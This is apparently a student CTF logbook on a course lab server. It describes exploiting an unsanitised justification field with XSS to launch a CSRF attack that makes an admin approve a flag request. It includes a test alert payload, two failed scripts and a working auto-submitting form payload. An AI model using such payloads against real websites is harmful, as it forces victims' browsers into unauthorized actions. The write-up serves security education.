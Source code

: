 ### CTF Logbook - Week 6 (XSS & CSRF)

Connecting to the web server, on port 5004, we are presented with a justification field, which is vulnerable to XSS, as it does not sanitize the input. We tested this by entering a simple script tag, and seeing if it was executed.

```html
<script>alert('XSS')</script>
```

This was executed and an alert box was shown.

![image](screenshots/w6/xss.png)

We then entered a normal string (e.g. "test"), and got to look around the admin page, located at port 5005. It is a simple page, with two disabled buttons, one for giving the flag and one for marking the request as read.

Inspecting the admin page, we found that the 'give the flag' button was a form, which sent a POST request to the server.

```html	
<form method="POST" action="/request/e8d14cd641d7d5457a72b85544f522509446d9db/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```

#### What we tried

Our initial thought was to inject a script tag, which would enable the button for giving the flag and automatically click it. 

```html
<script>
    document.getElementById("giveflag").disabled = false;
    document.getElementById("giveflag").click();
</script>
```

However, this did not work, as the script was executed at port 5004, and not at port 5005. 

We then tried to use the fetch API to send a POST request, performing the same action as the form. Note that the id for every request is unique and is visible at the top of the page, on port 5004. We had to manually copy and insert it into the script.

```html
<script>
    fetch("http://ctf-fsi.fe.up.pt:5005/request/2192820ffc5638e09269ae45745f59426638b5e8/approve", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"

        }
    });
</script>
```

This did not work either, as the request was blocked by CORS. 

![image](screenshots/w6/cors.png)

#### The solution 

We ended up injecting HTML code into the justification field, creating a form at port 5004, similar to the one at port 5005. Additionally, we added a script tag, which would automatically submit the form, when the admin visited the page. 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/af64e4ae7e9e3296eb6799de63c09fbf7be62418/approve" role="form">
    <div class="submit">

        <input type="submit" id="giveflag" value="Give the flag">

    </div>
</form>

<script>
    const button = document.getElementById("giveflag");
    button.click();
</script>
```

This worked, and we were able to get the flag! We successfully exploited the XSS vulnerability to perform a CSRF attack.

![image](screenshots/w6/flag.png)

Note: we had to disable the javascript in our browser, and visit the admin and then the justification page, in order to get the flag.
Without disabling javascript, we could not see the flag. This is because, since we get redirected to a page with our input, we would be making that request with our own permission level, resulting in 403 forbidden, since we do not have permissions to do it.

